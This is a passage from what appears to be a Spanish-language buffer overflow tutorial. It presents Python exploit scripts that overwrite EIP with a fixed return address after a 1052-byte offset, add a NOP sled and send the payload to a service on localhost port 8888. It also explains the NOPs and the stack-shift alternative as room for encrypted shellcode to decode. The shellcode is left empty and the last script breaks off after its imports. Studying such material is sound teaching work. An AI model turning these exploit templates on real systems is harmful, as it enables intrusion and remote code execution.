        payload = before_eip + eip + shellcode

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((remoteAddress, 8888))
        s.send(payload)

    if __name__ == "__main__":
        executeExploit()
    ```

Aqui hay que tener en cuenta el echo que nuestra shell code esta cifrada y que tenemos que dejar un margen para que cuando
el codigo nos salte al ESP tenga tiempo para desencryptar el codigo. Para esto tenemos dos possibilidades.

- Añdir al shell code unos No Operation code **NOPS**
- Effectuar un desplazamiento de la pila con la instruccion `sub esp, 0x10`

Que simplemente es, en el caso de las NOPS, añadir codigo que no hace nada. Se hacen con el caracter Hexadecimal `\x90`

```python
 #!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time
from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    shellcode = ()
    offset = 1052
    before_eip = b"A" * offset
    eip = pack("<I", 0x68a98a7b)
    nops = b"\x90"*16

    payload = before_eip + eip + nops + shellcode

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

o en el caso del desplazamiento de la pila

```python
 #!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time
from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

```